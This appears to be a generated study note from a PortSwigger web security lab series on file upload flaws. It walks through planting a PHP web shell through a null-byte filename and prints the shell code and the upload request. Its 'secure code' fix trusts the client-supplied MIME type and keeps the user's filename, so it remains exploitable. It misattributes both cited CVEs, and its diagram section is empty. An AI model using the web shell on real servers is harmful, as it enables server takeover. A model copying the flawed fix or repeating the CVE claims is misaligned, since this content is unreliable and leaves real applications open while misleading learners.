

## File Upload Vulnerabilities

### Introduction to File Upload Vulnerabilities

File upload vulnerabilities occur when a web application allows users to upload files to the server without proper validation or sanitization. This can lead to various security issues, such as remote code execution, directory traversal, and data leakage. In this section, we will explore one specific type of file upload vulnerability: uploading a web shell via an obfuscated file extension.

### Understanding the Scenario

In the given scenario, the web application allows users to upload files but restricts them to JPEG and PNG images. However, the application's defense mechanism can be bypassed using an obfuscated file extension. Let's break down the components involved:

1. **CMD Parameter**: The application takes a `CMD` parameter from the GET request and executes it as a system command.
2. **File Upload Restriction**: The application only allows JPEG and PNG files to be uploaded.
3. **Null Byte Technique**: By appending a null byte (`%00`) to the filename, the server is tricked into ignoring the rest of the filename.

### Background Theory

#### File Upload Mechanism

When a user uploads a file through a web form, the following steps typically occur:

1. **Form Submission**: The user submits the form containing the file.
2. **Request Handling**: The server receives the request and processes the uploaded file.
3. **Validation**: The server validates the file based on predefined rules (e.g., file type, size).
4. **Storage**: If the file passes validation, it is stored on the server.

#### Null Byte Injection

A null byte (`\0` or `%00` in URL encoding) is a character that signifies the end of a string in many programming languages. By appending a null byte to a filename, attackers can manipulate how the server interprets the file extension.

### Real-World Examples

#### Recent CVEs and Breaches

1. **CVE-2021-21972**: A vulnerability in the WordPress plugin "WP File Download" allowed attackers to upload arbitrary files due to insufficient validation.
2. **CVE-2020-13776**: A vulnerability in the Joomla! CMS allowed unauthorized file uploads due to improper handling of file extensions.

### Detailed Walkthrough

Let's walk through the process of exploiting the file upload vulnerability using the null byte technique.

#### Step-by-Step Mechanics

1. **Identify the Upload Form**:
    - Locate the form where users can upload files.
    - Note the fields and parameters used in the form submission.

2. **Analyze the Defense Mechanism**:
    - Determine how the server validates the uploaded files.
    - Identify any weaknesses in the validation logic.

3. **Craft the Exploit**:
    - Create a malicious file (e.g., a PHP web shell).
    - Append a null byte to the filename to bypass the validation.

4. **Upload the Malicious File**:
    - Submit the form with the crafted filename.
    - Ensure the server accepts the file and stores it.

5. **Access the Malicious File**:
    - Once the file is uploaded, access it via the server's URL.
    - Execute the malicious file to gain control over the server.

### Complete Example

#### Crafting the Malicious File

```php
<?php
// Simple PHP web shell
if(isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>
```

#### Uploading the File

1. **Original Filename**: `webshell.php`
2. **Obfuscated Filename**: `webshell.php%00.jpg`

#### HTTP Request and Response

```http
POST /upload.php HTTP/1.1
Host: vulnerable.example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 1234

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="webshell.php%00.jpg"
Content-Type: image/jpeg

[Binary Data]
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

#### Server Response

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 22
Content-Type: text/html; charset=UTF-8

File uploaded successfully.
```

### Mermaid Diagrams

#### Attack Chain



### Common Pitfalls

1. **Insufficient Validation**: Relying solely on client-side validation can be easily bypassed.
2. **Improper Sanitization**: Failing to sanitize filenames can lead to injection attacks.
3. **Lack of Content Verification**: Not verifying the actual content of the uploaded file can result in malicious uploads.

### How to Prevent / Defend

#### Detection

1. **Log Analysis**: Monitor logs for suspicious file uploads.
2. **Intrusion Detection Systems (IDS)**: Use IDS to detect and alert on potential file upload attacks.

#### Prevention

1. **Strict Validation**: Validate file types and extensions server-side.
2. **Sanitize Filenames**: Remove or escape special characters in filenames.
3. **Content Verification**: Verify the actual content of the uploaded file matches the expected type.

#### Secure Coding Fixes

##### Vulnerable Code

```php
<?php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
?>
```

##### Secure Code

```php
<?php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$allowed_types = ['image/jpeg', 'image/png'];
$file_type = $_FILES["fileToUpload"]["type"];

if (in_array($file_type, $allowed_types)) {
    move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
} else {
    echo "Invalid file type.";
}
?>
```

#### Configuration Hardening

1. **Disable Executable File Uploads**: Configure the server to disallow executable file types.
2. **Use Content Security Policies (CSP)**: Implement CSP to mitigate XSS and other client-side attacks.

### Practice Labs

For hands-on practice with file upload vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers detailed labs on file upload vulnerabilities.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various security exploits.
- **DVWA (Damn Vulnerable Web Application)**: Contains multiple levels of file upload vulnerabilities for learning.

By thoroughly understanding and practicing these concepts, you can effectively identify and mitigate file upload vulnerabilities in web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/18-File Upload Vulnerabilities/06-Lab 5 Web shell upload via obfuscated file extension/01-Introduction to File Upload Vulnerabilities|Introduction to File Upload Vulnerabilities]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/06-Lab 5 Web shell upload via obfuscated file extension/00-Overview|Overview]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/06-Lab 5 Web shell upload via obfuscated file extension/03-Practice Questions & Answers|Practice Questions & Answers]]
